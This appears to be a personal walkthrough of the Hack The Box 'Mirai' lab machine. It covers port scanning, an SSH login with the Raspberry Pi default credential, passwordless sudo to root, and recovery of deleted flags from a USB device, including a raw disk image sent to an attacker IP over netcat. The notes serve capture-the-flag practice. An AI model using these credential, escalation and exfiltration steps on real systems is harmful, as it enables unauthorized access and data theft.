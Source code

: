 # Summary



## about target

tip:  10.129.10.44

hostname:  Mirai

Difficulty:  Easy





## about attack

+ web enum, default credential login via ssh
+ Usb delete file recovery.
+ watch the video.



**attack note**

```bash
Mirai / 10.129.10.44

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey:
|   1024 aaef5ce08e86978247ff4ae5401890c5 (DSA)
|   2048 e8c19dc543abfe61233bd7e4af9b7418 (RSA)
|   256 b6a07838d0c810948b44b2eaa017422b (ECDSA)
|_  256 4d6840f720c4e552807a4438b8a2a752 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid:
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
1594/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
|_http-title: Unauthorized
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
|_http-favicon: Plex
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)

---- insteresting 
pi-hole, 3.1.4
plex-3.9.1-85417e0.js/ 32400/web/index.html


---- http enum
http://10.129.10.44/admin/index.php?login    
version: 3.1.4, auth rce: https://www.exploit-db.com/exploits/48442

:32400/web/index.html
regisger, hello123abc@local.com:Password!


---- exploit

ssh, use the pi default credential; 
pi:raspberry

sudo -l 

---- root
sudo /bin/bash   

recovery flag
# check the usb drivers;  or  lsblk
mount  

cd /media/usbstick
grep -aPo '[a-fA-F0-9]{32}' /dev/sdb

# go to /dev/sdb
cd /dev/sdb
# -a, process a binary file as if it were exit;
# -P, Interpret PATTERN as a Perl regular expression
# -o, Print only the matched (non-empty) parts of a matching line, with each such part on a separate output lin
grep -aPo '[a-fA-F0-9]{32}' /dev/sdb

recovery flag 2
dd if=/dev/sdb | zip -1 - | dd of=usb.zip
# nc transfer or scp 
nc -vnlp 9001 > usb.gz 
nc 10.10.14.78 9001 < usb.gz 

scp pi@$tip:/tmp/usg.gz ./

# decompress and recovery
file usb.gz 
gunzip usb.gz 
extundelete usb --restore-all

```







# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```



## http enum

dir scan; no interesting found.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://mirai.htb/ -o gobuster.log 

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://mirai.htb:32400/ -o gobuster-32400.log 
```

Tried default login, wrong

password, raspberry

![image-20221105160904060](./images/image-20221105160904060.png)



port 32400

default login, not work;  admin:password;

register and login, hello123abc@local.com:Password!

![image-20221105161024761](./images/image-20221105161024761.png)



![image-20221105161332606](./images/image-20221105161332606.png)



search exploit, found nothing available



# Exploit

reuse plex default password login ssh.

```bash
ssh, use the pi default credential; 
pi:raspberry
```

got pi shell.



# Privesc



## Local Enum

sudo enum

```bash
sudo -l
```

pi could run sudo without password.



## System

```bash
sudo /bin/bash
```

got root.

![image-20221104174206387](./images/image-20221104174206387.png)



## recovery flag

https://0xdf.gitlab.io/2022/05/18/htb-mirai.html#http--plex---tcp-32400

```bash
recovery flag
# check the usb drivers;  or  lsblk
mount  

cd /media/usbstick
grep -aPo '[a-fA-F0-9]{32}' /dev/sdb

# go to /dev/sdb
cd /dev/sdb
# -a, process a binary file as if it were exit;
# -P, Interpret PATTERN as a Perl regular expression
# -o, Print only the matched (non-empty) parts of a matching line, with each such part on a separate output lin
grep -aPo '[a-fA-F0-9]{32}' /dev/sdb

recovery flag 2
dd if=/dev/sdb | zip -1 - | dd of=usb.zip
# nc transfer or scp 
nc -vnlp 9001 > usb.gz 
nc 10.10.14.78 9001 < usb.gz 

scp pi@$tip:/tmp/usg.gz ./

# decompress and recovery
file usb.gz 
gunzip usb.gz 
extundelete usb --restore-all
```



## proof

```bash


```



